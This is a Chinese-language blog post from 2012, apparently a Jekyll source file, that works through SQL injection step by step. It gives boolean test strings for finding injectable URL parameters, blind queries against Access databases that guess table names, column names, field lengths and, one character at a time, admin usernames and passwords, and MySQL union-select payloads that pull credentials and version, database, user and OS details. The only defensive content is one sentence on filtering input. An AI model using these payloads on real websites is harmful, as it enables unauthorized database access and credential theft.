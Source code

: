 ```yaml
---
layout: post
title: "SQL注入攻击"
date: 2012-06-18 11:29
comments: true
categories: Computer
---
```

**SQL注入攻击**
最简单的说法就是由于程序编写的不规范，用户提交表单的相关代码安全性比较弱，这些提交的URL可以通过修改或者增加一些信息来获得一些本来不该获得信息。解决的办法就是对用户提交的表单进行特殊字符串的过滤，比如说‘和union。

**SQL注入攻击的检测**

主要分为数字型和字符型两种类型，分别又分为与真型和与非型。例如我们要得到的URL为http://abc.com/news.jsp?id=10

数值型：添加 and 1=1 和 and 1=2
字符型：分别为，http://abc.com/news.jsp?id=10' and '1'='1  http://abc.com/news.jsp?id=10'  and '1'='2

如果与真得到的与原网页相同，则就表示可以注入。

**几种不同的数据库的注入方法：**

**Access：**

1)判断是否可以注入，参照上面字符型和数字型的方法。

2）猜测表的名字
 
	and 0<>(select count(*) from *)
猜测表的名字，在后面的一个星号的位置填入你的想猜测的表的名字，例如：and 0<>(select count(*) from admin)就是猜测adimn这个表是否存在。如果返回的结果和原来的页面一样，就说明admin这张表是存在的。比较好用的办法是采用数据字典，将自己想猜测的表的名字放到一个文件中，通过程序读取文件，一个一个的猜测，运行和比较。

3）猜测字段数目，也就是一个表里的字段数目。
	
	and 0<(select count(*) from admin)
规则就是挨着测试，一次输入0，1，2，3……，如果当3还和原来页面一样，但是变成4就和原来的页面不一样了，那恭喜你，字段的数目就是4了。

4）猜测字段名称
	
	and 1=(select count(*) from admin where len(*)>0)
	and 1=(select count(*) from admin where len(name)>0)  //错误
	and 1=(select count(*) from admin where len(userName)>0) //正确
如上面的例子说明admin表中存在userName字段，但是不存在其他的字段。更多的字段猜测只能用数据字典用程序来做了。
<!--more-->
5）猜测各个字段的长度，例如上面我们刚得到的userName字段。
	
	and 1=(select count(*) from admin where len(userName)>0) //正确
	and 1=(select count(*) from admin where len(userName)>1) //正确
	and 1=(select count(*) from admin where len(userName)>2) //正确
	and 1=(select count(*) from admin where len(userName)>6) //错误
	and 1=(select count(*) from admin where len(userName)>5) //正确
	and 1=(select count(*) from admin where len(userName)>4) //正确
显然我们就能得到userName的字段的长度是6.

6）猜测字符

	and 1=(select count(*) from admin where left(userName,1)='a')  //猜解用户名字的第一位
	and 1=(select count(*) from admin where left(password,1)='a')  //猜解用户密码的第一位
直到反应正确才继续进行猜测下一位，由于在第5）部分中，我们已经得到了字段的长度，依次进行下去。

	and 1=(select count(*) from admin where left(userName,2)='ab')  //猜解用户名字的第二位
	and 1=(select count(*) from admin where left(password,1)='ab')  //猜解用户密码的第二位
7）找到登录窗口。这个靠运气吧，一般都在admin.jsp abc.com/admin/ etc.

**SQLServer的注入**的注入和Access的过程大致一样，可能在sql语句方面会有一些不同，请自己*google*。

**MySQL的注入**

MySQL注入的万能公式是这样的：

	union select 1,2,3...（查询字段）... from tableName
其中查询字段的位置可以放入我们想要查询的字段。
**具体的过程如下：**

1）确定字段的数目

	union select 1,1,1...1,1
依次增加上面的1的数目，得到最大的返回正确的页面，那个数字就是字段的数目。假设为4

2）确定表的名字

	union select 1,1,1,1 from admin
如果返回正确，则说明admin表是存在的，如果不存在，反复测试其他名称可以使用数据字典的方法，使用程序注入。

3）找字段，当然先找用户名和密码

	select 1,userName,3,4 from admin
如果返回正确，则说明admin表内有userName这个字段，同样的方法测试password的内容，当然，我们也可以先得到字段的长度，做法是在2）的后面加上order by num/*

4)得到一些系统的信息
	
	and 1=2 union all select version()/*  //数据库版本
	and 1=2 union all select database()/* //数据库名称
	and 1=2 union all select user()/*     //数据库当前链接的用户名
	and 1=2 union all select @@global.version_compile_os from mysql.user/* //操作系统的信息